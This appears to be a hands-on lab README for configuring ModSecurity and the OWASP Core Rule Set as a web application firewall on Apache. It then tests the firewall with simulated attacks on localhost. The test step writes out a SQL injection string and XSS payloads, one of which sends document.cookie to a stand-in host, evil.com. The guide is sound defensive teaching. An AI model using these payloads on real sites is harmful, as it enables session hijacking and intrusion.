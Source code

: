 # Overview
Configure ModSecurity as a WAF on an Apache web server, apply basic security rules, and test how it detects and blocks suspicious activity.

## Setup Requirements
**Apache Web Server:** Install Apache if not already set up.

**ModSecurity:** An open-source WAF module compatible with Apache, available for most Linux distributions.

Installation Commands (for Red Hat-based systems):
```bash
sudo yum install httpd mod_security mod_security_crs -y
```
# Exercise
## Step 1: Enable and Configure ModSecurity
**Enable ModSecurity:**
- The default ModSecurity configuration file should already be available at `/etc/httpd/conf.d/mod_security.conf`.
- Verify the configuration file and set SecRuleEngine to On:
```bash
sudo vim /etc/httpd/conf.d/mod_security.conf
```
- Find the line for SecRuleEngine and set it to On:
```bash
SecRuleEngine On
```
- Save and close the file. ( if you have never used VIM before this is how you do it: [Click here](https://builtin.com/articles/how-to-exit-vim#:~:text=Save%20and%20exit%3A%20If%20you,command.))

**Restart Apache** to apply changes:
```bash
sudo systemctl restart httpd
```
Enabling ModSecurity allows it to actively monitor, detect, and block suspicious traffic according to its configured rules.

## Step 2: Apply Core Rule Set (CRS) for Basic Protection
**Enable the OWASP ModSecurity Core Rule Set (CRS):**

- ModSecurity CRS should already be installed with the package `mod_security_crs`.
- Navigate to the CRS directory and link the configuration to the ModSecurity directory:

```bash
cd /etc/httpd/modsecurity.d/
sudo cp /usr/share/mod_security_crs/modsecurity_crs_10_setup.conf.example modsecurity_crs_10_setup.conf
```
- **Include the CRS rules** in your main ModSecurity configuration file:
```bash
sudo vim /etc/httpd/conf.d/mod_security.conf
```
- At the end of the file, add:
```bash
IncludeOptional /usr/share/mod_security_crs/*.conf
```
**Restart Apache:**
```bash
sudo systemctl restart httpd
```
The CRS provides essential protection against common web attacks (e.g., SQL injection, XSS).

## Step 3: Test the WAF with Simulated Attacks
### Verify Basic Functionality:

- Open a browser and navigate to your server’s IP or domain (e.g., http://localhost).
- The server should load your default Apache page, confirming that the WAF isn’t blocking normal traffic.

### Test SQL Injection Protection:
In the browser, simulate an SQL injection attempt by adding a parameter with SQL code:
- Do this in your browsers address bar.
```bash
http://localhost/products.php?id=1 OR 1=1
```

**Expected Result:** ModSecurity should block this request, showing a **403 Forbidden** error.

### Test Cross-Site Scripting (XSS) Protection:
Simulate an XSS attack by adding a script tag in the URL:
- Do this in your browsers address bar
```bash
http://localhost/search.php?q=<script>alert('Hacked!')</script>
```
or
```bash
http://localhost/search.php?q=<script>document.location='http://evil.com/steal.php?cookie='+document.cookie</script>
```
If executed, this sends the user's cookies (possibly containing session info) to the attacker's server.

**Expected Result:** The WAF should block this request as well, returning a **403 Forbidden** error.

## Review WAF Logs:
ModSecurity logs all detected attacks in the Apache error log:
```bash
sudo cat /var/log/httpd/modsec_audit.log
```
Review the log entries for details about the blocked SQL injection and XSS attempts, including information on the triggered rules.

**Explanation:** ModSecurity detects and blocks requests that match its rules, effectively protecting against common web vulnerabilities.

## Summary
- Basic WAF Configuration: Configured ModSecurity as a WAF with Apache, enabling detection and blocking of web-based attacks.
- Core Rule Set (CRS): Applied standard rules to protect against common attacks like SQL injection and XSS.
- Attack Simulation: Tested WAF by simulating common attacks and observing the response.
- Logging and Analysis: Used ModSecurity’s logs to analyze and understand blocked attacks.
